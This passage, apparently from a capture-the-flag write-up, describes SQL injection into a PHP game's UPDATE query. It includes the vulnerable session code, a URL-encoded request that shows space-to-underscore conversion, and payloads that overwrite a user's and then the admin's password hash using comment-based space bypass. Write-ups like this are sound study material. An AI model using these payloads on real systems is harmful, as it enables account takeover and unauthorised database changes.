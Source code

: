 Unfortunately, even if this seems to be a valid sytax, the injection didn't work. The first one query which was expected to make a delay on the response time, finishes in some ms, and the second query which should be able to update columns in db did not modify anything.

Actually here, I found that only the first query didn't work, while the second one, worked.

This is beacuse the diplayed variables `clicks` and `levels` are saved in `save_game.php` as session variables:

```php
	$_SESSION['CLICKS'] = $_GET['clicks'];
	$_SESSION['LEVEL'] = $_GET['level'];
```

so unless we don't logout and login again, we will not see the affected changes.

This injection works, and what if we can try to change admin password using this sql injection?

```
password='b133a0c0e9bee3be20163d2ad31d6248db292aa6dcb1ee087a2aa50e0fc75ae2' where username = 'test6'-- b
```

I was near to the solution already, but I had to do some more considerations.
So I wasted an hour to undertand the flow and then I realized that my first idea of changing admin password was right, in fact playing a little with mysql payloads with my `2_virgula_vs_update_vulnerable_statement` script led me to:

- send through burpsuite injections and check the syntax.
- Observing that a request with a key having spaces, has spaces converted to `_` characters in php applications.

I don't know if this works only for `PHP`.

For example, the injection:


```http
GET /test2.php?%74%65%73%74%20%74%65%73%74%2c%74%65%73%74=we HTTP/1.1
```

which is `test test,test=we`

will produce:

```sql
UPDATE players SET test_test,test=we WHERE username = cannot_changed
```

notice that for a working update statements in mysql we don't need parenthesis in `set` (example `SET (test_test,test=we)`) just `,` is fine.

so spaces gets changed in `_`. I bypassed the script using comments in query instead of using spaces.

The following paylaod works fine:

```
password='b133a0c0e9bee3be20163d2ad31d6248db292aa6dcb1ee087a2aa50e0fc75ae2'/**/where/**/username='admin'#
```

